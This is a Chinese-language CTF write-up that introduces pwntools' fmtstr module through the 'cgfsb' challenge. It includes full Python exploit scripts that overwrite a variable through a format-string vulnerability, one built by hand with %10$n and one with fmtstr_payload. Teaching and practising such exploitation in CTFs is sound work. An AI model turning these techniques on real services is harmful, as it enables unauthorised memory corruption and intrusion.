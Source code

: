 # 简单介绍pwntools fmtstr模块的使用

总所周知，在CTF题目中，有一种很基础但又很令人烦的题型就是格式化字符串，因为我觉得其中的内存构造其实计算得是比较复杂的，但是有了**pwntools**内置的**fmtstr**模块对于很多简单的**Format String Vulnerability**就秒了

## cgfsb

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/2.png)

不难看出这题的解法就是让**pwnme**的值为8就好了，按照传统的做法我们需要测量写入位置的参数然后构造复杂的字符串序列，使用**pwntools**的模块可以大幅简化构造流程，但是我们还是需要测量写入位置

通过 **ida** 查看汇编代码 找到`call printf`的地址（调用**printf(&s)**）。之后我们用**gdb**进行调试，在调用**printf(&s)**之前下一个断点,查看接收 **message** 的变量 **s** 是格式化字符串的第几个参数。输入 **message** 的时候输入 **‘aaaa’**

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/3.png)

查看当前栈中的内容

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/4.png)

传统的Exploit

```python
from pwn import *
context.log_level = 'debug' 
DEBUG = int(sys.argv[1])
if DEBUG == 1:
	p = process('./cgfsb') 
else: 
	p = remote('10.10.49.194', 30147)
pwnme_addr = 0x0804A068
payload1 = "ABCD" 
payload2 = p32(pwnme_addr) + 'aaaa%10$n'
p.recvuntil('please tell me your name:\n') 
p.sendline(payload1)
p.recvuntil('leave your message please:\n') 
p.sendline(payload2)
print p.recv() 
print p.recv()
```

使用pwntools fmtstr模块的Exploit

```python
from pwn import *
p = remote("111.198.29.45",41020)
#p = process('./fmt')
payload1 = "ABCD"
p.recvuntil('please tell me your name:\n') 
p.sendline(payload1)
payload2 = fmtstr_payload(10,{0x0804A068:0x8})
p.recvuntil('leave your message please:\n') 
p.sendline(payload2)
p.interactive()
```

其中**10**即为参数位置，**0x0804A068**即为需要修改的地址，**0x8**即为需要的值